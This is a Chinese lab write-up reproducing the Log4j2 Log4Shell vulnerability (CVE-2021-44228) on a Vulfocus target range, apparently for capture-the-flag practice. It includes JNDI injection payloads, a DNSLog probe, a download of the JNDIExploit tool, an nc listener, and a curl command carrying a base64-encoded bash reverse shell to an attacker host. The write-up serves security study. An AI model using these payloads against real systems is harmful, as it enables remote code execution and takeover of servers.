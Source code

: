 # Vulfocus复现log4j2(CVE-2021-44228)漏洞实验



## 一.实验环境
* kali2024.3
* Vulfocus
* Docker ：20.10
* Docker-Compose ：1.29
* 漏洞环境：Vulfocus 提供的 Log4j2 漏洞靶场
## 二.实验目的
* 复现 Log4j2 远程代码执行（RCE）漏洞（CVE-2021-44228）
* 利用 JNDI 注入实现远程命令执行
* 探索漏洞利用及防御措施
## 三.实验过程

### 1、环境搭建
* 安装 Docker 和 Docker-Compose
* 安装 Vulfocus
* Vulfocus Web 界面启动该靶场。

  ![alt text](.images\image.png)

  访问地址`访问地址: 192.168.56.121:36795`

  ![alt text](images\image-1.png)



### 2、log4j2漏洞复现
#### （1）、log4j2漏洞原理
 
CVE-2021-44228（Log4Shell）是 Apache Log4j2 组件中的一个 远程代码执行（RCE）漏洞。该漏洞允许攻击者通过 JNDI 注入，利用 LDAP 服务器 加载远程恶意代码，从而在目标服务器上执行任意代码。主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
#### （2）、检测漏洞存在性
* 方法一：确认受漏洞影响组件的版本号，此漏洞主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
  * 查看容器名称
     ```
     docker ps

     ```
     ![alt text](images\image-2.png)

  * 进入容器Shell`docker exec -it cool_gould /bin/bash`
  * 下载demo.jar文件到本地并查看`docker cp 19ea57acca57:/demo/demo.jar ~/Downloads/`
  很明显看到此log4j2的版本为2.14.0，属于漏洞版本

    ![alt text](images\image-3.png)
* 方法二：反汇编dome.jar文件，找到漏洞代码并定位到其中的传递参数（`log4j2逆向`）
   * 下载Java Decompiler反汇编工具`https://java-decompiler.github.io/`
   * 使用Java Decompiler反汇编工具对demo.jar文件进行反汇编，并查看其中的代码
   
     ![alt text](images\image-7.png)
   * **漏洞代码分析**：
      *   在以下代码中`payload` 变量直接传递到 `logger` 进行日志记录。没有进行任何过滤，意味着如果 `payload` 是恶意 `JNDI `语句，Log4j2 会执行 JNDI 解析。导致攻击者可以构造恶意 ${jndi:ldap://...} 语句，让服务器远程加载并执行恶意代码，最终实现 远程代码执行（RCE）。
     ```
      logger.error("{}", payload);
      logger.info("{}", payload);
      logger.info(payload);
      logger.error(payload);
     ```
     * 这两行代码 明确 开启了 JNDI 远程加载。JNDI 本应默认不允许加载远程代码，但这里强行启用了该功能，使漏洞更容易被利用。
     
      ```
       System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

       ```
* 方法三：（使用 PoC 手动测试 ${jndi:ldap://0qxc3d.dnslog.cn/exp}）
  * **使用此方法的优点**：DNSLog 提供了一个 唯一的子域名，可以用来监听 目标服务器是否解析了我们提供的 JNDI 网址。并且无需搭建服务器，只需要获取 一个随机子域名，目标服务器如果解析它，我们就可以在 DNSLog 平台上看到记录，证明目标可能存在漏洞。
  * 获取 DNSLog 专属子域名：访问 DNSLog 平台：`http://dnslog.cn/`点击 `“获取子域名”`，它会生成一个唯一的随机子域，`i6dryn.dnslog.cn`

  ![alt text](images\image-4.png)
  * 构造无害 `Payload`，向靶机发送包含 JNDI 协议的恶意 JNDI 载荷，触发 DNS 解析
   `curl 'http://192.168.56.121:39327/hello' -G --data-urlencode 'payload=${jndi:dns://i6dryn.dnslog.cn}'`

    ![alt text](images\image-5.png)
   * 访问 DNSLog 平台，查看解析记录，目标服务器的 Log4j 解析了 {jndi:dns://i6dryn.dnslog.cn}'`并尝试访  问 LDAP 服务器。访问 `i6dryn.dnslog.cn` 说明目标服务器被成功诱导解析，这证明 Log4j2 可能存在漏洞。

    ![alt text](images\image-6.png)

#### （3）、漏洞可利用性验证
##### <1>、下载JNDIExploit.v1.2 Java 反序列化漏洞利用工具，并解压
`wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip `
  
![alt text](images\image-11.png)


##### <2>、在在攻击者机器（ 192.168.56.123）上运行：
`nc -l -p 7777`它会在 端口 7777 上监听 传入的连接。此时，如果目标服务器反向连接到这个端口，攻击者就可以获取远程shell 访问权限。



##### <3>、启动 JNDIExploit 工具，伪造一个 LDAP/RMI 服务器
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.123`
该命令用于 启动 JNDIExploit 工具，伪造一个 LDAP 服务器，监听 IP 192.168.56.123，以便利用 Java 应用程序的 JNDI 注入漏洞（如 Log4Shell）。当目标服务器解析特定 JNDI 语句（如 ${jndi:ldap://192.168.56.123:1389/Exploit}）时，会从该伪造服务器加载恶意代码，从而实现远程代码执行（RCE）或反向 shell 攻击。

##### <4>、发送 GET 请求， 触发 JNDI 注入漏洞
该命令通过 curl 发送 GET 请求，尝试在目标服务器 `192.168.56.121:30815` 触发 JNDI 注入漏洞，并让目标服务器从攻击者的 伪造 LDAP 服务器 (`192.168.56.123:1389`) 下载并执行恶意代码。
```
curl -G http://192.168.56.121:30815/hello --data-urlencode 'payload=${jndi:ldap://192.168.56.123:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.123/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'

```
![alt text](images\image-13.png)
##### <5>、当发送get请求后，可以看到让目标服务器通过 LDAP 服务器下载 Base64 编码的反向 shell，从而远程控制目标机器
![alt text](images\image-14.png)
##### <6>、在攻击者主机中输入`ls /tmp`显示靶机的flag，将flag输入vulfocus中，成功完成漏洞可利用性验证
![alt text](images\image-15.png)

![alt text](images\image-12.png)

#### 3、log4j2逆向（见漏洞存在性检测方法二）


 
